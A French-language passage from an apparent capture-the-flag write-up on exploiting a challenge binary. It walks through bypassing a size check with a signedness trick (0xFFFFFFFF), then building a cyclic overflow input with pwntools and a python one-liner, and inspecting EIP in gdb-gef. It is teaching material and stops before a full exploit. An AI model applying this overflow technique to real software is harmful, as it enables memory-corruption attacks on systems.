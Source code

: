 ```c
  printf("[+] The pathname is : %s\n", path);
}
```

Une vérification est faite sur la taille du fichier et du chemin. Le fichier doit contenir au moins 4 caractères. Ces caractères seront injectés dans size avec ce code `if(read(fd, &size, sizeof(int)) != sizeof` puis size sera comparé à la constante `BUFFER` (taille du buffer : 128). Si nous passons une valeur trop grande pour size comme `0xFFFFFFFF`, la comparaison avec `BUFFER` ne nous donnera pas le resultat attendu car le type de `size` qui est un `int` ne peut contenir un aussi grand nombre, le programme nous retournera -1.

Maintenant que nous savons comment bypasser la vérification nous pouvons tout simplement chercher à provoquer un simple **buffer overflow** qui fera crashe le programme. Pour ce faire j'utilise la librairie python **pwn** pour générer une chaine de caractere assez longue avec un pattern qui 
nous permettra de trouver à partir de quel nombre de caractères notre payload ecrase le registre **eip**.

```python
from pwn import *

cyclic(0x100)
```

<img title="" src="markimages\2022-01-31-21-21-18-image.png" alt="" width="863">

Nous générons ainsi notre fichier avec python :

```bash
python -c 'print("\xff\xff\xff\xff" + "/" + "aaaabaaacaaadaaaeaaafaaagaaah
aaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaa
bbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabt
aabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaa
cnaac")' > /tmp/flaw
```

Il y a plusieurs façons de voir le contenu de **EIP** lors du crash d'un programme, nous allons utiliser le débugger gdb avec le plugin GEF, mais la commande `strace ./ch11 /tmp/flaw` peut suffire.

Avec gdb-gef : 

```bash
gdb-gef -q --args ./ch11 /tmp/flaw
```
